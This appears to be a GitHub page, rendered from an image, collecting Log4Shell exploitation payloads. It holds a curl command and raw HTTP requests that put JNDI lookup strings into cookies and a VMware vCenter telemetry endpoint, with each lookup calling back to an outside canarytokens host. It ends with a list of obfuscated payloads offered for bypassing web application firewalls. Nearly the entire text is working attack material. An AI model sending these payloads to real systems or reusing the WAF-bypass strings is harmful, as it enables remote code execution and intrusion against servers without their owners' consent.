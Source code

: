 ```
Cookie: LastMRH_Session=***; MRHSession=***
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Host: ******
Connection: Keep-alive
 
``` 
$ curl test.domain.com -H 'Cookie: CU_BRAND=${jndi:ldap://${sys:java.version}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}'
 
#Cookie based Log4Shell RCE
```
GET / HTTP/2
Host: test.domain.com
Referer: https://www.google.com/search?BC=en&q=testing
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36
Cookie: mt.v=***; CU_ACT=${jndi:ldap://${sys:java.version}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}; CID_CART_COOKIE=${jndi:ldap://${sys:java.version}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}; IBSD_LOCALE=en_US; CU_BRAND=${jndi:ldap://${sys:java.version}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}; jsession_unique_id=xx888dd667ggddd23454d
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
 
``` 
#VMware vCenter Log4Shell RCE
```
POST /analytics/telemetry/ph/api/hyper/send?_c=${jndi:ldap://${sys:java.version}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}
Host: test.domain.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
 
``` 
# Some Great WAF-Bypass Payloads to Play With
```
CREDIT: https://musana.net
${jndi:ldap://domain.com/j}
${jndi:ldap:/domain.com/a}
${jndi:dns:/domain.com}
${jndi:dns://domain.com/j}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://domain.com/j}
${${::-j}ndi:rmi://domain.com/j}
${jndi:rmi://domainldap.com/j}
${${lower:jndi}:${lower:rmi}://domain.com/j}
${${lower:${lower:jndi}}:${lower:rmi}://domain.com/j}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://domain.com/j}
${${lower:j}${lower:n}${lower:d}i:${lower:ldap}://domain.com/j}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://domain.com/j}
${jndi:${lower:l}${lower:d}a${lower:p}://domain.com}
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//domain.com/a}
${jn${env::-}di:ldap://domain.com/j}
${jn${date:}di${date:':'}ldap://domain.com/j}
${j${k8s:k5:-ND}i${sd:k5:-:}ldap://domain.com/j}
${j${main:\k5:-Nd}i${spring:k5:-:}ldap://domain.com/j}
${j${sys:k5:-nD}${lower:i${web:k5:-:}}ldap://domain.com/j}
${j${::-nD}i${::-:}ldap://domain.com/j}
```
